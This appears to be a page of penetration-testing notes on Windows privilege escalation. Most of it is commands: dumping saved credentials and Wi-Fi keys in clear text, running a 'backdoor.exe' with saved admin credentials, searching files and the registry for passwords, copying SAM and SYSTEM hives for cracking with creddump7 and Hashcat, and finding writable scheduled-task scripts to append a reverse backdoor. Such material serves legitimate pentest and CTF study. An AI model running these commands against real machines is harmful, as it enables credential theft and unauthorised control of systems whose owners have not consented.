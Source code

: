 
## Escalatiing With Passwords
We need to search for clear text password in various location.

```bat
cmdkey /list
runas /savecred /user:admin C:\windows\temp\backdoor.exe

#List saved Wifi using
netsh wlan show profile

#To get the clear-text password use
netsh wlan show profile <SSID> key=clear 

#Searching for Configuration Files with keyword passwords
dir /s *pass* == *.config
findstr /si password *.xml *.ini *.txt

#Search with winpeas
.\winPEASany.exe quiet cmd searchfast filesinfo
```


**SAM and System Backup Files**
Try to copy these files to local machine and crack
```
C:\Windows\repair\SAM
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\SAM
C:\Windows\repair\SYSTEM
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\RegBack\SYSTEM
```
Tools: ```https://github.com/Neohapsis/creddump7.git``` and Hashcat


**Search Registry for password**
```bat
# Search for passwords inside all the registry 
reg query HKLM /f password /t REG_SZ /s #Look for registries that contains "password"
reg query HKCU /f password /t REG_SZ /s #Look for registries that contains "password"
```


##Escalation with Schedule Task
List all task and see if anything suspicious task is running such as if any script is modfiyable(Powershell script?):
```bat
schtasks /query /fo LIST /v
```

If so we can we can appened our reverse backdoor to that script and wait for shell!


## Exploiting Installed Application
Finding running process
```bat
tasklist /v
.\winpeas.exe quiet processinfo
```
